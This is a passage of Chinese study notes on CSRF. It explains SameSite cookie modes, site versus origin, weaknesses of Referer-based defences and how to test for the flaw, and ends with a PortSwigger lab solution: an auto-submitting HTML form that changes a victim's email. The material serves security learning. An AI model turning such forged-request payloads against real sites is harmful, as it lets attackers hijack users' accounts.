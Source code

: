 ```
Set-Cookie: sessionid=abc123; SameSite=Strict
```

* Strict（严格模式），只有在同一站点请求时才会发送
* Lax（宽松模式），允许部分跨站请求携带cookie，但是只有在用户通过连接导航到站点时才会发送cookie，但是要满足两个条件
  * 请求使用**get**方法
  * 请求源自用户的顶级导航，指用户在浏览器中直接发起的页面跳转
* None，相当于没有限制

##### 站点

在带有SameSite coolie限制的上下文中，**站点（TLD+1）**​****被定义为****​**顶级域名**（TLD）加上**一级子域名**，例如`app.example.com`的站点是`example.com`，SameSite coolie策略限制了在不同**站点**请求中cookie的发送
同时，还会检查**域名**和**URL协议**，不同的URL协议也会被视为跨站点请求

##### 站点和源的区别

是否同源要观察的是url的协议，域名和端口都要相同
而同站点只需要观察顶级域名和一级子域名以及url协议

|请求来自|请求到|同一站点？|同源？|
| -----------------------| ----------------------------| ----------| ------|
|https://example.com|https://example.com|是|是|
|https://app.example.com|https://intranet.example.com|是|否|
|https://example.com|https://example.com:8080|是|否|
|https://example.com|https://example.co.uk|否|否|
|https://example.com|http://example.com|否|否|

#### 基于Referer的csrf防御

一些应用会使用HTTP的**Referer**标头来防御，来验证请求是否来自自己的域不过经常会被绕过

* 有些网站对这个的验证依赖于标头，如果省略了标头，就会跳过验证
* 还有一些应用会只以简单的方式检测标头，比如只检测是否以预期值开头

### 判断CSRF漏洞

* 获取一个正常请求的包，查看有没有**Referer**或**token**字段，如果没有，那么极有可能有漏洞
* 如果有**Referer**字段，但是去掉这个后访问仍然有效，那么也有可能

### burp实验

#### 实验：无防御的 CSRF 漏洞

这个实验要修改用户的邮件

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="marin@email">
</form>

<script>
        document.forms[0].submit();
</script>
```
